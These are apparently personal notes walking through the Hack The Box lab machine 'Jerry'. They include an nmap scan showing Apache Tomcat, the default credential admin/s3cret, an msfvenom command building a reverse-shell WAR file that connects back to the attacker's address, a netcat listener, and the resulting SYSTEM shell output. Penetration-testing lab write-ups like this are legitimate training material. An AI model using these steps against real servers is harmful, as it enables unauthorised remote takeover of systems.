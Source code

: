 # jerry  10.10.10.95


- Windows
- Apache Tomcat/Coyote JSP engine 1.1

- Tomcat default/common password
- Upload reverse .war

# Walkthrough
- https://0xdf.gitlab.io/2018/11/17/htb-jerry.html


## Nmap -> tomcat
````
# nmap -sV -sC -p 8080 -oA nmap/initial 10.10.10.95
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-title: Site doesn't have a title.
````

## tomcat default/common credential

admin /s3cret

## Build a .war
````
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.83 LPORT=9002 -f war > rev_shell-9002.war
````

Upload it, 
Run it

NC
````
$ nc -lnvp 9002
listening on [any] 9002 ...
connect to [10.10.15.83] from (UNKNOWN) [10.10.10.95] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

type 'C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt'
````



